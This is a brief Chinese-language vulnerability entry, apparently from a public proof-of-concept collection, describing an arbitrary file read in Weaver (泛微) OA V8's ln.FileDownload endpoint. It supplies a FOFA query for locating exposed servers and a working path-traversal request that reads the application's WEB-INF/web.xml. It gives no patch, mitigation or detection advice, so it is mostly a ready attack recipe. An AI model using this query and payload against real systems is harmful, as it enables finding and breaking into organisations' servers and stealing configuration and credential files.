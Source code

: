 # 泛微OA ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
泛微OA V8
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

登陆页面

![image-20220520141045902](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201410983.png)

验证POC

```
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

![image-20220520141058500](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201410567.png)